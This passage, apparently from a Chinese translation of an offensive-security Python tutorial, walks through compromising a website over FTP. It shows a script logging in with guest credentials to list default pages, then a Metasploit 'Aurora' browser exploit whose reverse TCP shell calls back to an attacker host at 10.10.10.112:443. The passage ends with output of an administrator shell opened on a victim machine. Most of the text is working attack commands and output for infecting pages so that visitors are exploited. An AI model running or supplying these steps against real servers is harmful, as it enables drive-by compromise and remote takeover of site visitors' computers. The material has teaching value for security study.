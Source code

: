```py
            retList.append(fileName)
            return retList

host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
returnDefault(ftp) 
```

看着这个脆弱的 FTP 服务器，我们可以看到它有三个 WEB 页面在基目录下。好极了，我们知道可以移动我们的攻击向量到我们的被感染的页面。

```py
attacker# python defaultPages.py
[+] Found default page: index.html
[+] Found default page: index.php
[+] Found default page: testmysql.php 
```

## 添加恶意注入脚本到 WEB 页面

现在我们已经找到了 WEB 页面文件，我们必须用一个恶意的重定向感染它。为了快速的生成一个恶意的服务器和页面在 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 页面，我们将使用 Metasploit 框架。注意，我们选择`ms10_002_aurora`的 Exploit,同样的 Exploit 被用在攻击 Google 的极光行动中。位与 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 的页面将重定向到受害者，这将返回给我们一个反弹的 Shell。

```py
attacker# msfcli exploit/windows/browser/ms10_002_aurora
    LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit
    PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112 LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
LHOST => 10.10.10.112
SRVHOST => 10.10.10.112
URIPATH => /exploit
PAYLOAD => windows/shell/reverse_tcp
LHOST => 10.10.10.112
LPORT => 443
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) > 
```

任何脆弱的客户机连接到我们的服务页面 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 都将会落入我们的陷阱中。如果成功，它将建立一个反向的 TCP Shell 并允许我们远程的在客户机上执行 Windows 命令。从这个命令行 Shell 我们能在受感染的受害者主机上以管理员权限执行命令。

```py
msf exploit(ms10_002_aurora) >
[*] Sending Internet Explorer "Aurora" Memory Corruption to client 10.10.10.107
[*] Sending stage (240 bytes) to 10.10.10.107
[*] Command shell session 1 opened (10.10.10.112:443 ->10.10.10.107:49181) at 2012-06-24 10:05:10 -0600
msf exploit(ms10_002_aurora) > sessions -i 1
[*] Starting interaction with 1...
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```
